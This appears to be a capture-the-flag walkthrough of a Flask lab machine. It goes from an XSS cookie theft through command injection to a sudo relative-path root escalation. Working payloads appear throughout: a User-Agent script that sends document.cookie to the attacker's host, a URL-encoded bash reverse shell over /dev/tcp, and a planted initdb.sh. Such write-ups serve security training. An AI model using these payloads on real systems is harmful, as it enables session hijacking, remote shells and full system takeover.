








Exploitation Summary
Exploitation process: The target machine was running a Flask web application with Werkzeug 2.2.2 that included a contact form vulnerable to Cross-Site Scripting (XSS). By injecting a malicious JavaScript payload into the User-Agent header, I was able to steal the administrator's session cookie when they reviewed the submitted form.
Using the stolen admin cookie, I gained access to the /dashboard endpoint, which contained a date generation feature vulnerable to command injection. By injecting shell commands into the date parameter, I achieved remote code execution as the dvir user.
For privilege escalation, I discovered that the user had sudo permissions to execute /usr/bin/syscheck, a custom shell script. This script executed ./initdb.sh using a relative path without proper validation. By creating a malicious initdb.sh script in the current directory containing a bash shell invocation, I was able to escalate to root when the script was executed with sudo.
Technologies/Exploits: Cross-Site Scripting (XSS) via User-Agent header, session hijacking through cookie theft, OS command injection, sudo privilege escalation via relative path exploitation.
Initial Reconnaissance
Starting with an nmap scan to identify open ports and services running on the target machine:

The scan reveals two main services: SSH on port 22 and an HTTP server on port 5000. The HTTP server is running Werkzeug 2.2.2, which is a WSGI utility library for Python, typically used with Flask applications.
Web Enumeration
Main Page
Navigating to the web application on port 5000, I encounter a simple landing page:
The page contains minimal content with a button that leads to a contact form. This is often an interesting attack surface, as forms that process user input can be vulnerable to various injection attacks.
Contact Form Discovery
Clicking on the button takes me to a contact form:

The form includes fields for first name, last name, email, phone number, and a message. Upon submitting the form with test data, there's no visible response or feedback, which suggests the data might be processed in the background or reviewed by an administrator.
Directory Enumeration
Running gobuster to discover hidden directories and endpoints:
gobuster dir -u http://10.10.11.8:5000 -w /usr/share/wordlists/dirb/common.txtThe scan reveals a /dashboard endpoint that returns a 500 Internal Server Error when accessed via gobuster, but returns a 401 Unauthorized when accessed directly through a browser. This indicates authentication is required to access this endpoint.
Session Cookie Analysis
Inspecting the application's cookies, I find an interesting session cookie:

The cookie named is_admin has a value that looks like a Flask session token. When I remove this cookie and attempt to access /dashboard, I get the 500 error, confirming that the cookie is required for authentication.
I initially investigate potential vulnerabilities in Werkzeug 2.2.2. There is a known vulnerability (SNYK-PYTHON-WERKZEUG-3319935) related to cookie handling, but it requires control over a subdomain to exploit, which isn't applicable in this scenario.
XSS Attack - Stealing Admin Cookie
Testing for XSS
Since the contact form appears to be reviewed by an administrator (based on the lack of immediate feedback), I decide to test for Cross-Site Scripting (XSS) vulnerabilities. If successful, I could potentially steal the administrator's session cookie.
I start by testing a simple XSS payload in the form fields:

After submitting the payload, I receive a message indicating that the request is suspicious and will be reported to the administrator:

This is actually very promising - it confirms that an administrator reviews flagged submissions, which means XSS is a viable attack vector.
Exploiting User-Agent Header
The interesting discovery here is that I can modify not just the form fields, but also HTTP headers like User-Agent and cookies. Testing with a simple payload in the cookie field:
<h1>xd</h1>I observe that the payload gets reflected in the admin's view:

This confirms that the admin panel displays the submitted data, including HTTP headers, without proper sanitization. Now I need to craft a payload that will exfiltrate the admin's cookie to my server.
Cookie Theft Payload
After testing various XSS payloads, I find one that successfully exfiltrates the cookie. I intercept the POST request in Burp Suite and modify the User-Agent header to contain the following payload:
User-Agent: <script>fetch('http://10.10.14.18?cookie='+document.cookie)</script>This JavaScript code will execute in the admin's browser context, grab their document.cookie, and send it to my HTTP server running on port 80.
Setting up a simple Python HTTP server to receive the stolen cookie:
python3 -m http.server 80After submitting the form with the malicious User-Agent, I receive the admin's cookie on my HTTP server:
10.10.11.8 - - "GET /?cookie=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -The stolen cookie value is: ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Accessing the Admin Dashboard
I replace my session cookie with the stolen admin cookie using the browser's developer tools or a browser extension like Cookie-Editor. Now when I navigate to /dashboard, I successfully gain access:

The dashboard displays a simple interface with functionality to generate system reports based on date parameters.
Command Injection - Gaining Initial Access
Discovering the Injection Point
I capture the request in Burp Suite when clicking the "Generate Report" button and notice it sends a POST request with a date parameter. Testing for injection vulnerabilities, I try inserting a single quote (') into the parameter:
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
Content-Type: application/x-www-form-urlencoded
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
date=2024-01-01'The response changes when the quote is added - the normal output doesn't appear, suggesting that the input is being interpreted in some way. I test for SQL injection first, but that doesn't yield results. However, when I test for OS command injection, I achieve code execution.
Confirming Command Injection
I test a simple command injection payload to verify I can execute arbitrary commands:

The payload structure uses semicolons and newlines to chain commands:
date=asd;whoamiThe response confirms that the command executed successfully, returning the username of the running process.
Establishing a Reverse Shell
Now that I've confirmed command injection, I craft a reverse shell payload to gain interactive access. I set up a netcat listener on my attacking machine:
nc -lvnp 443Then I inject a bash reverse shell payload through the vulnerable parameter:
date=asd;%0abash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.18/443+0>%261";%0aBreaking down the payload:
date=asd;- Dummy value to satisfy the expected parameter%0a- URL-encoded newline to separate commandsbash -c "bash -i >& /dev/tcp/10.10.14.18/443 0>&1"- Interactive bash shell redirected to my listener- The ampersand (
&) is URL-encoded as%26
The reverse shell successfully connects, and I gain access as the dvir user. I can now retrieve the user flag from /home/dvir/user.txt.
Privilege Escalation - Exploiting Sudo Permissions
Checking Sudo Privileges
After gaining initial access, I check what commands the dvir user can run with sudo:
sudo -lThe output reveals:
Matching Defaults entries for dvir on headless:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
use_pty
User dvir may run the following commands on headless:
(ALL) NOPASSWD: /usr/bin/syscheckThe user can execute /usr/bin/syscheck as root without a password. This is not a standard Linux utility, so I investigate further.
Analyzing the syscheck Script
First, I check what type of file it is:
file /usr/bin/syscheck/usr/bin/syscheck: Bourne-Again shell script, ASCII text executableIt's a bash script, so I can read its contents:
cat /usr/bin/syscheckThe script contents:
#!/bin/bash
if [ "$EUID" -ne 0 ]; then
exit 1
fi
last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"
disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"
load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
/usr/bin/echo "Database service is not running. Starting it..."
./initdb.sh 2>/dev/null
else
/usr/bin/echo "Database service is running."
fiIdentifying the Vulnerability
The critical vulnerability is in this section:
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
/usr/bin/echo "Database service is not running. Starting it..."
./initdb.sh 2>/dev/null
else
/usr/bin/echo "Database service is running."
fiThe script executes ./initdb.sh using a relative path rather than an absolute path. This means it will look for initdb.sh in the current working directory. Since the script runs as root (via sudo), any commands in our malicious initdb.sh will also execute as root.
I search for an existing initdb.sh file on the system:
find / -name initdb.sh 2>/dev/nullNo results are found, confirming that this file doesn't exist anywhere on the system.
Exploiting the Relative Path
I create a malicious initdb.sh script in the dvir user's home directory:
cd /home/dvir
echo '/bin/bash' > initdb.sh
chmod +x initdb.shThe script simply spawns a bash shell. Since syscheck will run this with root privileges, I'll get a root shell.
Now I execute the vulnerable script with sudo from the directory containing my malicious initdb.sh:
sudo /usr/bin/syscheckThe script output shows:
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.7G
System load average: 0.09, 0.07, 0.01
Database service is not running. Starting it...At this point, my malicious initdb.sh executes, and I receive a root shell. I can verify this:
whoamirootI now have full root access to the system and can retrieve the root flag from /root/root.txt.